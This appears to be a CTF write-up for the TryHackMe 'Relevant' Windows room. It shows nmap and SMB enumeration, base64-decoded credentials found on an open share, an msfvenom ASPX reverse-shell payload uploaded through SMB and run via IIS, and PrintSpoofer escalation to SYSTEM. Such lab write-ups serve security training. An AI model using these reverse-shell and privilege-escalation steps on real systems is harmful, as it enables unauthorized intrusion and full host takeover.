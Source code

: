 Relavant (Tryhackme)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/10524728b2b462e8d164efe4e67ed087.jpeg" alt="TryHackMe Room Icon" width="150"/>

Penetration Testing Challenge

# Enumeration

## Nmap

```jsx
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server

135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server 2016 Standard Evaluation 14393 microsoft-ds

3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-04T13:17:24
| Not valid after:  2025-12-04T13:17:24
| MD5:   9ddf:ed34:3c12:2d90:122e:611d:d885:719d
| SHA-1: 5577:0fbe:8a32:a7d3:3b5c:122e:ce23:b5bb:6961:b44d
|_ssl-date: 2025-06-05T13:23:37+00:00; -1s from scanner time.

49663/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0

49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC

```

## SMB (445)

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient -L \\\\10.10.102.138\\
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.102.138 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

```

```jsx
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123 
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
```

![image](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/3f2c4eb2f420cf3dc3c24b324c83a916a4f5110d/Relevant(THM)/image%20(1).png?raw=true)




```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f aspx -o rev.aspx

```

- `.aspx` is the file extension for **ASP.NET web pages**, used on **Windows servers running IIS**
- we will upload this from smb
- We got shell and get user.txt

## ROOT

- check whoami `/priv`

```jsx
SeImpersonatePrivilege enable
```

### PrintSpoofer

```jsx
┌──(kali㉿kali)-[/opt/tools/printspoofer]
└─$ smbclient \\\\10.10.102.138\\nt4wrksv
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (18.5 kb/s) (average 18.5 kb/s)
smb: \> 

```

```jsx
c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

06/05/2025  07:12 AM    <DIR>          .
06/05/2025  07:12 AM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
06/05/2025  07:12 AM            27,136 PrintSpoofer.exe
06/05/2025  06:52 AM             3,424 rev.aspx
               3 File(s)         30,658 bytes
               2 Dir(s)  21,045,948,416 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
```

```jsx
C:\Windows\system32>whoami
whoami
nt authority\system

```
